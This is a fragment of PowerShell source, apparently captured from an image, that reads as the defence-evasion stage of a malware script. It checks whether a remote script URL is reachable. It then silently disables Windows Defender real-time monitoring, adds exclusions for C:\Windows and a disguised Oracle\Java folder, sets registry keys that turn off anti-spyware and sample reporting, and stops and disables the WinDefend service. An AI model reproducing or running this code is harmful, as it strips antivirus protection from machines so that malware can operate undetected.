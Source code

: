 ```powershell
    }
}

Function Test-ScriptURL {
    param (
        [string]$scriptUrl
    )
    
    try {
        $request = Invoke-WebRequest -Uri $scriptUrl -UseBasicParsing -TimeoutSec 5 -ErrorAction Stop
        if ($request.StatusCode -eq 200) {
            return $true
        } else {
            return $false
        }
    } catch {
        return $false
    }
}

Function StopAV {

    if ($osver -eq "10") {
        Set-MpPreference -DisableRealtimeMonitoring $true -ErrorAction SilentlyContinue
    }
    Function Disable-WindowsDefender {

        if ($osver -eq "10") {

            Set-MpPreference -DisableRealtimeMonitoring $true -ErrorAction SilentlyContinue
            Set-MpPreference -ExclusionPath "C:\ProgramData\Oracle" -ErrorAction SilentlyContinue
    

            Set-MpPreference -ExclusionPath "C:\ProgramData\Oracle\Java" -ErrorAction SilentlyContinue
            Set-MpPreference -ExclusionPath "C:\Windows" -ErrorAction SilentlyContinue
    

            $defenderRegistryPath = "HKLM:\SOFTWARE\Microsoft\Windows Defender"
            $defenderRegistryKeys = @(
                "DisableAntiSpyware",
                "DisableRoutinelyTakingAction",
                "DisableRealtimeMonitoring",
                "SubmitSamplesConsent",
                "SpynetReporting"
            )
    

            if (-not (Test-Path $defenderRegistryPath)) {
                New-Item -Path $defenderRegistryPath -Force | Out-Null
            }
    

            foreach ($key in $defenderRegistryKeys) {
                Set-ItemProperty -Path $defenderRegistryPath -Name $key -Value 1 -ErrorAction SilentlyContinue
            }
    

            Get-Service WinDefend | Stop-Service -Force -ErrorAction SilentlyContinue
            Set-Service WinDefend -StartupType Disabled -ErrorAction SilentlyContinue
        }
```